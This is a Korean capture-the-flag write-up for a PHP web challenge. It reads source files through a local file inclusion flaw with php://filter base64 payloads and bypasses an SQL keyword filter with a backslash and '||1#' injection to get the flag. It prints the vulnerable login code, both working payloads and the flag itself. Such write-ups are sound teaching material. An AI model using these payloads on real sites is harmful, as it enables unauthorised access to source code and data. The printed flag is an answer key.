

# mustardSOURCE - Writeup



[http://respect.dothome.co.kr/mustardSOURCE.php](http://respect.dothome.co.kr/mustardSOURCE.php)

___

## Local File Inclusion

`file` 파라미터를 통해 php 파일을 `include`하는 모습을 볼 수 있다.

[http://respect.dothome.co.kr/mustardSOURCE.php?file=register.php](http://respect.dothome.co.kr/mustardSOURCE.php?file=register.php)
[http://respect.dothome.co.kr/mustardSOURCE.php?file=login.php](http://respect.dothome.co.kr/mustardSOURCE.php?file=login.php)

LFI를 통해 소스코드를 읽을 수 있다.

그리고 `login.php` 파일을 읽어보니 주석에 `bG9naW4ucGhw.php` 페이지가 취약하다고 나와있다.

[http://respect.dothome.co.kr/mustardSOURCE.php?file=php://filter/convert.base64-encode/resource=login.php](http://respect.dothome.co.kr/mustardSOURCE.php?file=php://filter/convert.base64-encode/resource=login.php)
``` php
<?php
/* I think You think "Vuln is SQL INJECTION!" UMM.... maybe??????????*/
/* real Vuln page is bG9naW4ucGhw.php */
?>

<html>
<head>
<body>
<center>
<h1>^_^ THIS IS FAKE PAGE!!!!!</h1>
<!-- I think you should see the page source~~~ -->

</center>
</body>
</head>
</html>
```

___

이 역시 LFI로 소스코드를 읽어봤더니, SQL Injection 취약점이 있을것 같은 로그인 페이지가 나온다.

[http://respect.dothome.co.kr/mustardSOURCE.php?file=php://filter/convert.base64-encode/resource=bG9naW4ucGhw.php](http://respect.dothome.co.kr/mustardSOURCE.php?file=php://filter/convert.base64-encode/resource=bG9naW4ucGhw.php)
``` php
<?php
include_once("./dbConnect.php");
include_once("./ab0bfd73daaec7912dcdca1ba0ba3d05.php");
@$username = $_GET['username'];
@$password = $_GET['password'];

if(preg_match("/or|and|like|=|'|substr|admin|0x|hex|ord|regex|reverse|char/i", $username))
{
		exit("No hack!");	
}

else if(preg_match("/or|and|like|=|'|substr|admin|0x|hex|ord|regex|reverse|char/i", $password))
{
		exit("No hack!");	
}
$query = "select * from mustardSOURCE where username='{$username}' and password='{$password}'";
$result = @mysqli_query($sql_conn, $query);
$rows = @mysqli_fetch_array($result);


echo $query;
echo "<hr>";

if($rows['username'] === "admin")
{
	echo "flag is ".$flag;
}
show_source("bG9naW4ucGhw.php");
?>
```

___

## Local File Inclusion, again?

아마 여기선 SQL Injection을 하기를 의도한것 같은데, `flag`가 들어있는 페이지마저도 LFI로 소스코드가 읽어졌다.

?? 출제 오류의 낌새가 난다.

[http://respect.dothome.co.kr/mustardSOURCE.php?file=php://filter/convert.base64-encode/resource=ab0bfd73daaec7912dcdca1ba0ba3d05.php](http://respect.dothome.co.kr/mustardSOURCE.php?file=php://filter/convert.base64-encode/resource=ab0bfd73daaec7912dcdca1ba0ba3d05.php)
``` php
<?php
$flag = "h3x0r{S0U4CE_LIKE_PHP}";
?>
```

___

## SQL Injection

예의상 SQL Injection으로도 풀어봤다.

[http://respect.dothome.co.kr/bG9naW4ucGhw.php?username=\&password=||1%23](http://respect.dothome.co.kr/bG9naW4ucGhw.php?user)
```
flag is h3x0r{S0U4CE_LIKE_PHP}
```

___

## Answer
flag: `h3x0r{S0U4CE_LIKE_PHP}`